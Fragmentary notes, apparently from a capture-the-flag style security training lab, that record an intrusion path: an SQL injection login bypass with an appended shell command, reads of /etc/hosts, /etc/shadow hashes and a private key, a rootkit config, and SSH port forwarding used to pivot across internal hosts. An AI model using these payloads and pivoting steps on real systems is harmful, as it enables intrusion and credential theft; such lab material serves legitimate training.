 make a tunnel to port 80
open firefox
/admin/admin.php
sql injection
un: admin
pw: ' OR '1'='1
; ls -lisa /x/x/x/

cat /etc/hosts
see intranet is 192.168.150.253

Host is up (0.0018s latency).
Not shown: 9997 closed ports
PORT     STATE SERVICE
80/tcp   open  http
514/tcp  open  shell
3201/tcp open  cpq-tasksmart ssh !!!!!!!!!!!

root:$6$V9apEU0x$cKDuPz59hBr48Qj6mnL0w5nuEddjzNEoHqfVY2pKs4VqqHqarZ1F9nCIaOsk7NvqIKrybd6OFFSnQXMjoT4aO1:19481:0:99999:7:::
ubuntu:!:19481:0:99999:7:::
comrade:$6$TWu7qH0m$CX3CNvgib3ksGe6TxlHWjKiM3AE.Azur7lGtCU2QZJlBb2Do3YBjswJ0Zy2q9.xc2sJEofW38lJuGU1uLcInU1:19481:0:99999:7:::
#F1aG = FDxVuQ3RCdXQvDlQI4bM

comrade::StudentMidwayPassword



comrade@lin:~$ sudo cat /root/brootkit/brootkit-master/br.conf


comrade@lin:~$ cat /usr/share/terminfo/b/beacon | openssl enc -d -base64 -aes-128-ctr -nopad -nosalt -k password.txt
??


   85  cat /etc/rkhunter.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 



student@lin-ops:~$ ssh -MS /tmp/www-datahost www-data@0.0.0.0 -p 1460
student@lin-ops:~$ ssh -S /tmp/www-datahost www-data -O forward -L 1463:192.168.150.253:3201
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -L 1460:192.168.28.100:2222
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -L 1461:192.168.28.100:80
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -D9050
student@lin-ops:~$ ssh -S /tmp/gray gray -O cancel -D9050
main ms



![image](https://github.com/hannahsfrommt/Security/assets/140441321/931711e5-1567-49c3-8fb6-711f3826f61d)
![image](https://github.com/hannahsfrommt/Security/assets/140441321/b641be6c-fcd2-459d-851e-38f98a6bb487)
![image](https://github.com/hannahsfrommt/Security/assets/140441321/048e78fd-d4ae-4606-bd47-b4cf4329c25a)




student@lin-ops:~$ cat /tmp/.ssh/id_rsa
